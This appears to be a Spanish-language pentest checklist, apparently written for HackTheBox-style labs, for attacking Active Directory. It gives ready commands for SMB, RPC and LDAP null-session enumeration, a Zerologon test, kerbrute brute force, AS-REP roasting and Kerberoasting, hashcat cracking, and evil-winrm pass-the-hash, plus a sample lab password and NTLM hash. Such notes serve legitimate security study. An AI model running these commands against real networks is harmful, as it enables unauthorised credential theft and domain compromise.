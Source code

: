 ## ---- SERVICES ENUMERATION AND EXPLOTATION ----

[[NMAP ENUMERATION CHECKLIST]]


Nota muy importante, probar ASREPROAST Y KERBEROASTING con los usuarios que tenemos INSIDE AD

## ---- INSIDE AD ----

## WITHOUT USER

#### 1. Check [[RPC (135)]] null session:

```
    rpcclient <<IP>>
    rpcclient -U "" -N <<IP>>
```

#### 2.Check [[SMB (139, 445)]] null session:

```
   
    crackmapexec smb {IP} --pass-pol -u "guest" -p ""
    
    smbmap -H {IP} -u null -p null
    smbmap -H {IP} -u guest
    
    smbclient -N -L //{IP}
    smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
    
```

**!!NOTA IMPORTANTE!!** 
* Con la opción `--shares` para listar los directorios compartidos.

* Si queremos que continue sin que se pare en el primer éxito: `--continue-on-success`

**!!NOTA IMPORTANTE!!**  Buscar vulnerabilidades asociadas a SMB sobre todo si son equipos antiguos (EternalBlue)

#### 3. Check [[LDAP (389, 636)]] to obtain interesting information (null credential):

```
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# or
./windapsearch.py -U --full --dc-ip <<IP>>

# or
crackmapexec ldap {IP} --pass-pol -u "" -p ""
```

#### 4. Test [[ZEROLOGON]]

```
#En el virtual env que se encuentra en /home/kali/VENV/zerologon
source venv/bin/activate

python3 zerologon_tester.py MULTIMASTER 10.10.10.179 <DC NAME (Netbios)> <IP>
```

#### 5.  [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Diccionario para enumerar usuarios -> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.


#### 7. NTLM RELAY + RESPONDER

## WITH USER

#### 1. [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Si no encuentras nada prueba a aplicar fuerza bruta con el parametro bruteforce (pruebas los usuarios también como contraseñas)
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.

#### 2. [[ASREPROAST]] (se le pasan usuarios sin contraseñas)

```
impacket-GetNPUsers -dc-ip 10.10.10.192 -no-pass -usersfile usuarios-kerberos.txt blackfield.local/
```

Si tenemos un usuario y una pass tambien podemos usar tambien ASEREPROAST para obener el ticket de otros usuarios (SIGUIENTE APARTADO)

Mejor comando ASREP:

````
impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -format john -outputfile hash
````

IMPORTANTE Para crackear la pass utilizar el siguiente comando:

```
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --forc
```


## WITH USER AND PASS

#### 1. [[WINRM]]

```
#Con usuario y contraseña:
evil-winrm -i <<IP>> -u <<usuario>> -p <<contraseña>>
#Ejm PTT
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

#### 2.  Check [[SMB (139, 445)]] y comprueba si es vulnerable a PSEXEC

#### 3. Check [[SMB (139, 445)]] y compruebas los recursos compartidos del usuario y si es vulenrable a PSEXEC (crackmapexec).

```
# Puedes checkearlo con crackmapexec y conectarte al recurso susando smb
smbclient -U <<DOMINIO>>/<<USUARIO>> //<<ip>>/<<RECURSO COMPARTIDO>>
# Ejemplo:
smbclient -U BLACKFIELD.local/support //10.10.10.192/NETLOGON
```

#### 4. Comprueba el RDP (3389) y WINRM-> Crackmapexec suele fallar 

Manualmente:

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:stephanie /v:192.168.201.75
```

#### 5. MIMIKATZ Y SECRETDUMPS PARA BUSCAR MÁS CONTRASEÑAS [[DUMP SAM & NTDS (SECRETDUMP)]] [[MIMIKATZ]] 

#### 6. [[PASSWORD SPRAY]]

##### 7. [[KERBEROASTING]]

```
impacket-GetUserSPNs <<domain name>>/<<username>>:<<password>> -outputfile <<krbroast>>
```

**!!NOTA IMPORTANTE!!** SI NOS DA ESTE ERROR --> TENEMOS QUE SINCRONIZARNOS

![[Pasted image 20230525200042.png]]

```
 ntpdate <IP of DC>
```

##### 6. SI TENEMOS ACCESO COMPROBAR HISTORIAL DE USUARIO O MIARLO EN WINPEAS

```
(Get-PSReadlineOption).HistorySavePath
```

![[Pasted image 20230611154748.png]]
#### 5. GOLDEN/SILVER TICKETS

#### 8. Vuelve a comprobar todo lo anterior pero con usuario y contraseña: rpc, smb, etc.

![[Pasted image 20230218131515.png]]
